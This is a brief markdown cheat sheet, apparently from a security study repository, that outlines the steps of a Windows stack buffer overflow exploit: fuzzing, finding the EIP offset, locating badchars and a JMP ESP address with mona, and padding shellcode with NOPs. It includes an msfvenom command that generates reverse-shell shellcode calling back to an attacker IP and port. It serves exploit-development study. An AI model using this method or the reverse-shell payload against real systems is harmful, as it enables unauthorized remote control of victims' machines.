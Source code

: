 # General information

The process of discovering and exploiting a BOF requires some steps:

1. Use a fuzzer to get the exact Bytes to crash the app:

```python
size = 10

while (size < 200):
  buffer = "A" * size
  size += 10

```

2. Generate a custom script to replicate the crash:

```bash
buffer = "A" * XXXX
```

3. Extract exact offset with msf-pattern_create and msf-pattern_offset.

```python
msf-pattern_create -l XXX
msf-pattern_offset -l XXX -q XXX
```

4. Test EIP with "B" values:

```python
filler = "A" * $ExactOffset
eip = "B" * 4
offset = "C" * 20
```

5. Locate space for the shellcode (increasing number of C's).
6. Locate badchars.
7. Find an address to redirect the flow (JMP ESP?) that is static and doesn't contain bad chars:

```bash
!mona modules
>msf-nasm_shell
>JMP ESP
!mona find -s "\xff\xe4" -m "$MODULENAME" #Module with no security features.

If address is 0x10090c83 we should add into the code in reverse:
eip = "\x83\x0c\x09\x10"
```

8. Generate shellcode without badchars.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.139 LPORT=444 -f c EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x20"
```

9. shellcode is Encoded? Add some NOPs.

```bash
filler = "A" * $ExactOffset
eip = "\x\x\x\x"
offset = "C" * 4
nops = "\x90" * 10
shellcode = "\x\x\x\x...."
```

